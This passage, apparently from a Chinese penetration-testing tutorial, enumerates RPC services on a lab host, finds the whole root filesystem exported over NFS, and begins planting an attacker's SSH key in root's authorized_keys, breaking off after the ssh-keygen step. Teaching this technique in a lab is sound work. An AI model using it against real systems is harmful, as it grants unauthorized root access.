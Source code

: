   100000  2  udp  111 portmapper

  100024  1  udp 53318 status

  100024  1  tcp 43729 status

  100003  2  udp  2049 nfs

  100003  3  udp  2049 nfs

  100003  4  udp  2049 nfs

  100021  1  udp 46696 nlockmgr

  100021  3  udp 46696 nlockmgr

  100021  4  udp 46696 nlockmgr

  **100003  2  tcp  2049 nfs**

  **100003  3  tcp  2049 nfs**

  **100003  4  tcp  2049 nfs**

  100021  1  tcp 55852 nlockmgr

  100021  3  tcp 55852 nlockmgr

  100021  4  tcp 55852 nlockmgr

  100005  1  udp 34887 mountd

  100005  1  tcp 39292 mountd

  100005  2  udp 34887 mountd

  100005  2  tcp 39292 mountd

  100005  3  udp 34887 mountd

  100005  3  tcp 39292 mountd

root@ubuntu:~# **showmount -e 192.168.99.131**

Export list for 192.168.99.131:

**/ \***

获取一个系统的可写入的文件系统权限是很简单的。我们需要在攻击者的系统上创建一个新的SSH秘钥，挂载NFS接口，然后把我们的秘钥添加到root使用者账号的认证秘钥文件里：

root@ubuntu:~# **ssh-keygen** 

Generating public/private rsa key pair.

Enter file in which to save the key (/root/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /root/.ssh/id_rsa.

Your public key has been saved in /root/.ssh/id_rsa.pub.


